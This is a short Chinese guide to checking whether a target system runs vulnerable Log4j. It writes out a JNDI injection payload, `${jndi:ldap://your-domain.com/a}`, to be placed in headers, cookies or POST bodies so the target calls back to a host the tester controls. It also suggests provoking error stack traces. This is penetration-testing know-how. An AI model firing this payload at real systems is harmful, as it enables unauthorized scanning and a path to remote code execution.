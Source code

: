 ### 如何判断靶标是否使用 Log4j

通过构造特殊请求，观察目标系统的反应

1. **利用 JNDI 注入**: 这是最经典的 Log4j 漏洞探测方法。在 HTTP 请求的各个位置（如 `User-Agent`、`X-Api-Key`、`Cookie`、POST 请求体等）注入一个 JNDI 字符串，并指向一个你可以控制的域名。

   - 构造一个 DNS 请求：例如 `${jndi:ldap://your-domain.com/a}`

   - 原理: 如果目标使用了 Log4j 且存在漏洞，它会解析这个字符串，并向你的域名发送一个 DNS 查询请求

   - 判断: 你只需要在你的服务器上监听 DNS 请求。如果收到了来自目标 IP 的 DNS 请求，那就说明它解析了你的 Payload，很可能使用了 Log4j

2. **报错信息分析**: 构造一个会触发应用错误的请求，并观察返回的错误信息

   - 例如: 在请求参数中输入一些特殊字符，让程序抛出异常。如果错误堆栈中出现了 `org.apache.logging.log4j` 或其他相关的类名，则可以确认

   - 这种方法需要目标系统配置为显示详细的错误信息，这在生产环境中并不常见，但在开发或测试环境中可能有效


